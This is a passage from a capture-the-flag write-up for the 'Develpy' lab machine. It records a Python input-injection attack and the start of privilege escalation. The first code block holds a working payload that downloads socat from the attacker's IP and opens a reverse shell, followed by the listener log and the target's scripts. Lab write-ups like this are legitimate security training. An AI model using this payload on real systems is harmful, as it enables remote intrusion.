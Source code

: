 ```
 Please enther number of exploits to send??: __import__('os').system('wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:443 EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane')
[...]
```

```
┌──(root💀siunam)-[~/ctf/thm/ctf/Develpy]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443 
2022/09/05 05:13:13 socat[24256] N opening character device "/dev/pts/1" for reading and writing
2022/09/05 05:13:13 socat[24256] N listening on AF=2 0.0.0.0:443
                                                                2022/09/05 05:14:51 socat[24256] N accepting connection from AF=2 10.10.125.206:40134 on AF=2 10.18.61.134:443
                                                     2022/09/05 05:14:51 socat[24256] N starting data transfer loop with FDs [5,5] and [7,7]
                   king@ubuntu:~$ 
king@ubuntu:~$ stty rows 22 columns 121
king@ubuntu:~$ export TERM=xterm-256color
king@ubuntu:~$ ^C
king@ubuntu:~$ ^C
```

We're user `king`!

> Note: After I rooted this machine, I found that you can just spawn a `bash` shell, which is much easier! `__import__('os').system('bash')`

**user.txt:**
```
king@ubuntu:~$ cat user.txt 
{Redacted}
```

# Privilege Escalation

## king to root

> There are 2 ways to escalate to root.

In the **home** directory of the user `king`, we can see there are some interesting files:

```
king@ubuntu:~$ ls
credentials.png  exploit.py  root.sh  run.sh  user.txt
```

**root.sh:**
```bash
python /root/company/media/*.py
```

Not sure what we can do with the `root.sh` file right now.

**run.sh:**
```bash
#!/bin/bash
kill cat /home/king/.pid
socat TCP-LISTEN:10000,reuseaddr,fork EXEC:./exploit.py,pty,stderr,echo=0 &
echo $! > /home/king/.pid
```
